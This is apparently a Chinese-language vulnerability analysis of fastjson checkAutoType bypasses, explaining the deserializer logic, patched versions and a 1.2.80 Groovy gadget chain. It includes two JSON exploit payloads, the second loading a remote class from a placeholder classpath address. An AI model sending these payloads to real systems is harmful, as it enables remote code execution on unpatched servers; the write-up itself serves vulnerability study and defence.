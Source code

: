 - 接口`java.lang.AutoCloseable`会创建实例`JavaBeanDeserializer`，为默认的解析器
- 且`JavaBeanDeserializer`会解析`expectClass` 并传入`ParserConfig#checkAutoType`
- `java.lang.AutoCloseable`的实现类多为流处理接口，读取写文件方便

#### ThrowableDeserializer

`ThrowableDeserializer`调用`ParserConfig#checkAutoType`时`expectClass`传入值`Throwable.class`

`parser.getConfig().checkAutoType(exClassName, Throwable.class, lexer.getFeatures());`

将`"@type":"java.lang.Exception"`会进入ThrowableDeserializer

需要`java.lang.Exception`的实现类，构造函数/getter/setter有可以利用的点

#### 修复方案

- 1.2.69版本后陆续：将`java.lang.Runnable` `java.lang.Readable` `java.lang.AutoCloseable`加入黑名单
- 1.2.83版本追加：返回clazz前，缓存clazz进`TypeUtils.mapping`时 追加Autotype判断

### 1.2.80 

复现条件为不开启safemode且关闭autoType

经过上面的分析，`ParserConfig#checkAutoType`函数逻辑：

- `expectClass`为null
    - 参数typeName不在`denyHashCodes`黑名单
    - 参数typeName在`TypeUtils#mappings`中被缓存的同时
    - `expectClass`为null 并且typeName不是HashMap且不是`expectClass`子类实现类
    - 此时`ParserConfig#checkAutoType`不会报错，可利用

- `expectClass`不为null：
    - typeNmae和`expectClass`均不在`denyHashCodes`黑名单
    - expectClass在`TypeUtils#mappings`中
    - typeName不是ClassLoader、DataSource、RowSet的子类
    - `expectClass`不为null，且不为`Object.class、Serializable.class、Cloneable.class、Closeable.class、EventListener.class、Iterable.class、Collection.class`
    - typeName是`expectClass`的子类
    - 此时`ParserConfig#checkAutoType`不会报错，可利用


- 利用隐式类关系将下面2个类加入到`ParserConfig.mapping`中
    - org.codehaus.groovy.control.org.codehaus.groovy.control.ProcessingUnit、
    - org.codehaus.groovy.control.CompilerConfiguration

```json
{
    "@type":"java.lang.Exception",
    "@type":"org.codehaus.groovy.control.CompilationFailedException",
    "unit":{}
    }
```

- 再加载远程class

```json
{
    "@type":"org.codehaus.groovy.control.ProcessingUnit",
    "@type":"org.codehaus.groovy.tools.javac.JavaStubCompilationUnit",
    "config":{
        "@type":"org.codehaus.groovy.control.CompilerConfiguration",
        "classpath":"地址"
        }
    }

```


## 修复

官方在1.2.25版本中新增了 `autoTypeSupport` 反序列化选项，并通过 `checkAutoType` 函数对加载类进⾏⿊⽩名单过滤和断。
